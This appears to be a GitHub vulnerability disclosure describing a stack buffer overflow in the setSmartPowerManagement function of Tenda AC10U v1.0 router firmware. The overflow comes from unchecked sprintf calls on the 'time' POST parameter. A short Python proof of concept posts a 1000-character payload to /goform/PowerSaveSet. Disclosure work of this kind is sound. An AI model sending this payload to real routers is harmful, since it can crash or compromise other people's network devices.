 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `setSmartPowerManagement` function. The `time` variable receives the `time` parameter from a POST request and `time` is directly parsed into the `hour_start`, `min_start`, `hour_end` and `min_end`. However, since the user can control the input of `time`, the statement `sprintf(starttime, "%s:%s", hour_start, min_start); sprintf(endstart, "%s:%s", hour_end, min_end);` can cause a buffer overflow by  `hour_start`, `min_start`, `hour_end` and `min_end`.

![image-20240313213135344](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313213135344.png)

![image-20240313213152425](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313213152425.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/PowerSaveSet"
payload = 'a'*1000 + ':aaaa-bbb:1'

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313213754468](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313213754468.png)
